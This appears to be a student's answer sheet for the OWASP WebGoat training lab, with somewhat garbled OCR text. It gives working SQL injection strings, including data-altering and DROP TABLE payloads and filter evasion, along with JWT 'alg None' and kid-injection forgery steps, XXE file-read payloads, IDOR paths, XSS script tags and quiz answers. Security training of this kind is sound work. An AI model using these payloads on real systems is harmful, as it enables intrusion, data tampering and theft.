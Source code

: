 A1-INTRO

2)select department from employees where first_name=’Bob';
3)update employees set department=’Sales’ where first_name=’Tobi’;
4)alter table employees add phone varchar(20) ;
5) grant all on grant_rights to unauthorized_user;
9)Smith’ or ‘1’=’1
10) Login count: 0
User_Is: 0 or 1=1
11) Employee name: A
Authentication Tan: ‘ or ‘1’ =  ‘1
12)Employee name : A
Authentication Tan: ‘; Update employees set salary=99999 where first_name=’John
13) %’; Drop Table access_log;--

A1-ADVANCED:

3)Name:     ‘; select * from user_system_data;-- 
Password: 
5)username: tom
password: thisisasecretfortomonly
6)4,3,2,3,4

A1- MITIGATION:

5) 
1 st box: getConnection
2: PreparedStatement
3: prepareStatement
4: ? 
5:?
6: setString
7: setString

6) try {  
     Connection conn = DriverManager.getConnection(DBURL, DBUSER, DBPW);  
     PreparedStatement ps = conn.prepareStatement("SELECT * FROM users WHERE name = ?");  
     ps.setString(1, "Admin");  
     ps.executeUpdate();  
} catch (Exception e) {  
     System.out.println("Oops. Something went wrong!");  
}
9) a’;/**/select/**/*/**/from/**/user_system_data;--

10) a';/**/seselectlect/**/*/**/frfromom/**/user_system_data;--

12)104.130.219.202





A2:

Authentication Bypass:

submit-owasp-post- instead of 0,1 put 2,3 in secquestion

JWT:

3) user
5) change user to tom and click delete
owasp- copy the first token and paste in encode, decode hash then copy the decode and paste change it to “None”
the copy the encode and paste it in manual editor

then copy the second token and paste it in encode/decode copy the decode change false to true and paste and then copy the encode and paste it in manual editor
put semicolon and send

7) 1,3
10) open in new browser , jwt.io, eposh convertor and clike the here link in question
copy the token in the here link and paste it in jwt.io, then go to epoach convertor and copy the token and paste it in jwt token 
then copy the code upto violet color and go to webgoat and click checkout and go to owasp
in that instaed of Bearer null , delete the null and paste it

11)
in tom click delete then owasp-copy the tocken

paste the token in jwt.io 
go to webgoat in show hints search the hacked' UNION select 'deletingTom' from INFORMATION_SCHEMA.SYSTEM_USERS – and paste it in jwt instead of kid and chage the hacked to abc and change the deleting tom to xyz 
then go to encode/decode hash paste xyz and copy the encode and paste it in jwt.token instead of xyz

copy the code and paste it manual editor

PASSWORD RESET

2) CLICK FORGET PASSWORDand go to webwolf and check the pwd
4)admin,green
5)  what is your favorite color

SECURE PASSWORD:
give password sanka2@123#




A3:

Username: CaptainJack
Password: BlackPearl

A4:

4) <?xml version="1.0"?><!DOCTYPE comment [<!ENTITY xxe SYSTEM "file:///">]><comment>  <text>&xxe;</text></comment>
7) <?xml version="1.0"?><!DOCTYPE comment [<!ENTITY xxe SYSTEM "file:///">]><comment>  <text>&xxe;</text></comment>
 and above in application/json  instad of json type xml

A5:

2)  username:tom pass:cat
3)role,userid
4)WebGoat/IDOR/profile/2342384

2) Users, Config

A7:

2) 
Go to Downloads-> more tools-> web developer fools console will open
In console type, alert(document.cookie) ;
It will show alert msg click ok then again type 
Alert(document.cookie) ;
 Then in the 2 nd exercise type YES and click Submit
7) 
In that shopping cart
In enter your credit card : remove that number
Type <script>alert(“username”) </script>
Example <script>alert(“sankamethra”) </script>
10) 
Type, start.mvc#test/ and click submit
11) 
In console, type
Webgoat.custom js.phoneHome() 
We can see the response code like -236547
Copy and paster and click submit
12) 
Quiz
1) Solution 4
2) Solution 3
3) Solution 1
4) Solution 2
5) Solution 4


